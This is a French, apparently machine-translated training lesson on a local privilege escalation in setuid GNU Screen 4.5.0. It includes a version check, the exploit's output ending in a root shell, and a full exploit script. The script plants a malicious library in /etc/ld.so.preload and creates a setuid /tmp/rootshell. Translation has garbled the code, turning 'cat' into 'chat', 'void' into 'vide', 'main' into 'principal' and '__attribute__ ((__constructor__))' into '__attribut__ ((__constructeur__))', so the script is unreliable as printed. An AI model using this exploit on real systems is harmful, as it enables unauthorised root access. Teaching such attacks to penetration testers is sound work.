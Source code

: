 Services vulnérables
===================

* * * * *

De nombreux services peuvent être trouvés, qui présentent des failles qui peuvent être exploitées pour élever les privilèges. Un exemple est le populaire multiplexeur de terminaux [Screen](https://linux.die.net/man/1/screen). La version 4.5.0 souffre d'une vulnérabilité d'escalade de privilèges en raison d'un manque de vérification des autorisations lors de l'ouverture d'un fichier journal.

#### Identification de la version de l'écran

Identification de la version d'écran

```
dsgsec@htb[/htb]$ screen -v

Version d'écran 4.05.00 (GNU) 10-Dec-16

```

Cela permet à un attaquant de tronquer n'importe quel fichier ou de créer un fichier appartenant à root dans n'importe quel répertoire et d'obtenir finalement un accès root complet.

#### Escalade des privilèges - Screen_Exploit.sh

Escalade des privilèges - Screen_Exploit.sh

```
dsgsec@htb[/htb]$ ./screen_exploit.sh

~ gnu/racine d'écran ~
[+] Tout d'abord, nous créons notre shell et notre bibliothèque...
[+] Nous créons maintenant notre fichier /etc/ld.so.preload...
[+] Déclenchement...
' de /etc/ld.so.preload ne peut pas être préchargé (impossible d'ouvrir le fichier objet partagé) : ignoré.
[+] terminé !
Aucun socket trouvé dans /run/screen/S-mrb3n.

# identifiant
uid=0(racine) gid=0(racine) groupes=0(racine),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115 (lpadmin),116(sambashare),1000(mrb3n)

```

Le script ci-dessous peut être utilisé pour effectuer cette attaque par élévation de privilèges :

#### Screen_Exploit_POC.sh

Code : bash

```
#!/bin/bash
# screenroot.sh
# écran setuid v4.5.0 exploitation racine locale
# abuse de l'écrasement de ld.so.preload pour obtenir root.
# bogue : https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACKER LA PLANÈTE
# ~ infodox (25/01/2017)
echo "~ gnu/racine d'écran ~"
echo "[+] Tout d'abord, nous créons notre shell et notre bibliothèque..."
chat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>
__attribut__ ((__constructeur__))
vide dropshell (vide) {
     chown("/tmp/rootshell", 0, 0);
     chmod("/tmp/rootshell", 04755);
     unlink("/etc/ld.so.preload");
     printf("[+] fait !\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
chat << EOF > /tmp/rootshell.c
#include <stdio.h>
int principal(vide){
     setuid(0);
     setgid(0);
     setuid(0);
     setegid(0);
     execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
rm -f /tmp/rootshell.c
echo "[+] Nous créons maintenant notre fichier /etc/ld.so.preload..."
cd/etc
umask 000 # parce que
screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so" # nouvelle ligne nécessaire
echo "[+] Déclenchement..."
screen -ls # l'écran lui-même est setuid, donc...
/tmp/rootshell

```